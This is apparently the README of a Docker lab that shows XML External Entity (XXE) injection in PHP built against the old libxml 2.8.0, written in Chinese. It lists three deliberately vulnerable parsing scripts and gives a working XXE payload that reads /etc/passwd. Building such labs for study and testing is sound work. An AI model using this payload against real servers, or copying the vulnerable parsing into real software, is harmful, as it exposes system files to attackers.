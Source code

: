 # PHP环境 XML外部实体注入漏洞（XXE）

环境介绍：

- PHP 7.0.30
- libxml 2.8.0

libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。为了演示PHP环境下的XXE漏洞，本例会将libxml2.8.0版本编译进PHP中。PHP版本并不影响XXE利用。

使用如下命令编译并启动环境：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/index.php`即可看到phpinfo，搜索libxml即可看到其版本为2.8.0。

Web目录为`./www`，其中包含4个文件：

```bash
$ tree .
.
├── dom.php # 示例：使用DOMDocument解析body
├── index.php
├── SimpleXMLElement.php # 示例：使用SimpleXMLElement类解析body
└── simplexml_load_string.php # 示例：使用simplexml_load_string函数解析body
```

`dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞，具体输出点请阅读这三个文件的代码。

Simple XXE Payload：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

输出：

![](1.png)

更多高级利用方法，请自行探索。
